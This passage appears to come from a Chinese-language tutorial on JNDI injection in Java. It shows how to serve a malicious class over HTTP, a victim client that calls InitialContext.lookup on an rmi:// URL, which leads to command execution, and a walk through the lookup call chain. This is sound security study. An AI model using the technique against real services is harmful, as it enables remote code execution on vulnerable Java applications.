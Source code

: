 ```
编译:javac test.java
部署在web服务上：py -3 -m http.server 8081 #端口根据前面服务端url的端口
```

客户端(受害者)

```
package JNDI;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

当客户端通过`InitialContext().lookup("rmi://127.0.0.1:8081/obj")`获取远程对象时就会加载恶意class文件

先启动服务端,然后运行客户端,命令执行成功

![image-20220210134450499](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220210134450499.png)

JNDI除了配合RMI还可以配合LDAP进行攻击

### 调用链分析

跟进`InitialContext.java`的lookup方法

```
public Object lookup(String name) throws NamingException {
    return getURLOrDefaultInitCtx(name).lookup(name);
}
```

`getURLOrDefaultInitCtx`函数会分析name的协议头返回对应协议的环境对象，因为InitialContext是实现了Context接口的类,此处返回Context对象的子类rmiURLContext对象

接下来就是到对应协议中去lookup搜寻,继续跟进lookup方法

GenericURLContext.java

```
//传入的var1="rmi://127.0.0.1/obj"
public Object lookup(String var1) throws NamingException {
	//此处this为rmiURLContext类调用对应类的getRootURLContext类为解析RMI地址
	//当然,不同的协议调用这个函数的时候会根据getURLOrDefaultInitCtx函数返回的对象调用不同的			//getRootURLContext,从而进入不同的协议路线
	
    ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);//获取RMI注册中心相关数据
    Context var3 = (Context)var2.getResolvedObj();//获取注册中心对象

    Object var4;
    try {
        var4 = var3.lookup(var2.getRemainingName());//到相应的注册中心去调用lookup函数
    } finally {
        var3.close();
    }

    return var4;
}
```
